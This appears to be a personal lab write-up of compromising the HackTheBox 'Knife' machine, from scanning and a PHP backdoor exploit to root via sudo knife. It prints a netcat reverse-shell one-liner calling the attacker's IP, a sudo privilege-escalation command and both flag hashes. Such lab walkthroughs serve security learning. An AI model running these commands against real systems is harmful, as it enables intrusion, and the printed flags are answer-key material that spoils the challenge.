 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.

Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but then I remembered the really nifty site, gtfobins.github.io. I searched up knife and found this code: sudo knife exec -E 'exec "/bin/sh"'. Since this knife binary is able to be run as sudo by james, this command makes it so that the elevated privileges are not dropped, granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.

